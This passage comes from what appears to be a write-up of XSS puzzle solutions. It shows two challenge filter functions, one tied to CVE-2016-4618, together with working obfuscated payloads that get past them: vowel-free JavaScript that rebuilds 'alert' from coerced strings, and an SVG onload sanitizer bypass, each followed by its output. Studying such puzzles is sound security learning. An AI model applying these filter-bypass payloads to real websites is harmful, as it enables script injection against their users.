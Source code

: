 ```html
<script>console.log(""|[]["p\x6fp"]["c\x6fnstr\x75ct\x6fr"]('\x61l\x65rt(1)')()|"");</script>
```

<a name="a022"/></a>
### K'Z'K (189)
```javascript
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels in honor of K'Z'K the Destroyer
    s = s.replace(/[aeiouy]/gi, '');
    // remove certain characters that can be used to get vowels
    s = s.replace(/[{}!=<>\\]/g, '');
    return '<script>console.log("' + s + '");</script>';
}
```
payload
```html
"|[]['m'+(++[][[]]+[])[1]+'p']['c'+([]['m'+(++[][[]]+[])[1]+'p']+[])[6]+'nstr'+([][[]]+[])[0]+'ct'+([]['m'+(++[][[]]+[])[1]+'p']+[])[6]+'r']((++[][[]]+[])[1]+'l'+([][[]]+[])[3]+'rt(1)')()|"
```
Output
```html
<script>console.log(""|[]['m'+(++[][[]]+[])[1]+'p']['c'+([]['m'+(++[][[]]+[])[1]+'p']+[])[6]+'nstr'+([][[]]+[])[0]+'ct'+([]['m'+(++[][[]]+[])[1]+'p']+[])[6]+'r']((++[][[]]+[])[1]+'l'+([][[]]+[])[3]+'rt(1)')()|"");</script>
```

<a name="a023"/></a>
### Fruit(23)
```javascript
// CVE-2016-4618
function escape(s) {
  var div = document.implementation.createHTMLDocument().createElement('div');
  div.innerHTML = s;
  function f(n) {
    if ('SCRIPT' === n.tagName) n.parentNode.removeChild(n);
    for (var i=0; i<n.attributes.length; i++) {
      var name = n.attributes[i].name;
      if (name !== 'class') { n.removeAttribute(name); }
    }
  }
  [].map.call(div.querySelectorAll('*'), f);
  return div.innerHTML;
}
```
payload Firefox 52.6.0
```html
<svg t onload=alert(1)>
```
Output
```html
<svg onload="alert(1)"></svg>
```
